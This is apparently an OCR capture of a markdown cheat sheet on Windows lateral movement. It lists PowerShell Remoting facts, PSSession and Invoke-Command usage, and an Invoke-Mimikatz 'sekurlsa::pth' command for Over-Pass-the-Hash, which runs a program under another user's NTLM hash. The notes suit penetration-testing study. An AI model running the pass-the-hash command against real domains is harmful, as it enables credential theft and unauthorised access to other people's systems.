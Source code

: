 # PowerShell Remoting (PSRemoting)
- Enabled by default on Server 2012 and afterwards
- May need to enable remoting on a desktop windows machine (admin privs required)
- By default you get an elevated shell if administrator creds are used to authenticate
- Uses winrm port 5985
- HTTP tunnel and all traffic inside tunnel are encrypted
- Need local admin acces

# One-To-One (PSSession)
|Command|Description|
|---|---|
|New-PSSession|Create new PSSession with target|
|Enter-PSSession -ComputerName $computerFQDN|Interact with PSSession|

# One-to-Many (Invoke-Command)
|Command|Description|
|---|---|
|Invoke-Command -ComputerName \$ComputerFQDN -ScriptBloack {\$command\_here}|Run specified command on target computer|
|Invoke-Command -ComputerName {Get-Content $Computer_list} -FilePath \\\$path\\\$to\\\$script|Execute script on target computer(s)|

# Over-Pass-the-Hash (OPtH)
|Command|Description|
|---|---|
|Invoke-Mimikatz -Command '"sekurlsa::pth /user:\$TargetUser /domain:\$DomainName /ntlm:\$ntlmhash /run:\$program.exe"'|Spawn program.exe with another user's privileges|
